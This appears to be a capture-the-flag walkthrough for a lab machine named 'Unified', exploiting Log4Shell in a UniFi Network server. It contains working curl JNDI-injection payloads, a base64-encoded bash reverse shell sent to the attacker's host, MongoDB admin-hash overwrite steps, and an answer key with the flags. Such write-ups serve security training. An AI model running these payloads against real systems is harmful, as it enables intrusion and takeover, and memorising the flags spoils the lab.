 ### Unified

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>
**Tags:** Vulnerability Assessment, Databases, Custom Applications, MongoDB, Java, Reconnaissance, Clear Text Credentials, Default Credentials, Code Injection<br>



---

#### Task 1
**Which are the first four open ports?**
> 22,6789,8080,8443

![Open Ports](open_ports.png)



---

#### Task 2
**What is the title of the software that is running running on port 8443?**
> UniFi Network

![Software Title](software_title.png)



---

#### Task 3
**What is the version of the software that is running?**
> 6.4.54

We visit `https://{TARGET IP}:8443`:

![Software Version](software_version.png)



---

#### Task 4
**What is the CVE for the identified vulnerability?**
> CVE-2021-44228

We see that The Unifi Network Application Versions prior to 6.5.54 are vulnerable to [CVE-2021-44228](https://github.com/puzzlepeaches/Log4jUnifi).



---

#### Task 5
**What protocol does JNDI leverage in the injection?**
> ldap



---

#### Task 6
**What tool do we use to intercept the traffic, indicating the attack was successful?**
> tcpdump

We confirm that the target website is vulnerable. First we set up `tcpdump` on the `tun0` interface and port `389` to monitor ldap connections in the network. Next we use `curl` to make an HTTP Post Request to the login page:

```bash
curl -i -s -k -X POST -H $'Host: {TARGET IP}:8443' -H $'Content-Length: 95' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://{OUR IP}/whatever}\",\"strict\":true}' $'https://{TARGET IP}:8443/api/login'
```

Checking `tcpdump`, we see an incoming ldap connection to our machine, meaning the target website is vulnerable:

![tcpdump ldap connection](tcpdump.png)



---

#### Task 7
**What port do we need to inspect intercepted traffic for?**
> 389



---

#### Task 8
**What port is the MongoDB service running on?**
> 27117

We make a reverse shell. We setup a netcat listener on port `4444`:

```bash
# Terminal 1
nc -nlvp 4444
```

In another terminal, we setup the exploit:
```bash
# Terminal 2
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

Then we make and deliver our reverse shell:
```bash
# Terminal 2
b64=$(echo 'bash -c bash -i >&/dev/tcp/{OUR IP}/4444 0>&1' | base64)
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,$b64}|{base64,-d}|{bash,-i}" --hostname "{OUR IP}"
```

In another terminal, we use the `curl` command to start a reverse shell:
```bash
# Terminal 3
curl -i -s -k -X POST -H $'Host:{TARGET IP}:8443' -H $'Content-Length: 100' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://{OUR IP}:1389/o=tomcat}\",\"strict\":true}' $'https://{TARGET IP}:8443/api/login'
```

Then in our first terminal, we have a reverse shell:

![Reverse Shell](reverse_shell.png)

In our reverse shell, we see that the MongoDB service is running on port 27117:

![MongoDB Port](mongo_port.png)



---

#### Task 9
**What is the default database name for UniFi applications?**
> ace



---

#### Task 10
**What is the function we use to enumerate users within the database in MongoDB?**
> db.admin.find()

We can use the `db.admin.find()` functions to enumerate users:

![Enumerate Users](list_users.png)



---

#### Task 11
**What is the function we use to update users within the database in MongoDB?**
> db.admin.update()

The `x_shadow` field holds the sha512 password hash. We don't know the administrator's password and can't recover it from the `x_shadow` field:

![Original Password](original_password.png)

However, we can update the administrator's password. On our own computer we use the `mkpasswd` command to create a hash of the password `password`:

```bash
$ mkpasswd -m sha-512 password
```

In our reverse shell, we set the administrator's `x_shadow` field to the value of the password hash:

![Updated Password Hash Field](updated_password.png)

We are now able to login to the target website using the username `administrator` and password `password`:

![Login](login.png)



---

#### Task 12
**What is the password for the root user?**
> NotACrackablePassword4U2022

While logged into the target website as the `administrator`, we click on the `settings` button on the left control bar. Next we scroll down to the `Device Authentication` section where we see the credentials for the root user:

![Root Password](root_password.png)



---

#### User Flag
> 6ced1a6a89e666c0620cdb10262ba127

![User Flag](user_flag.png)



#### Root Flag
> e50bc93c75b634e4b272d2f771c33681

We connect to the target machine using our credentials for root:
```bash
ssh root@{TARGET IP}
```

Then we find the root flag:

![Root Flag](root_flag.png)

---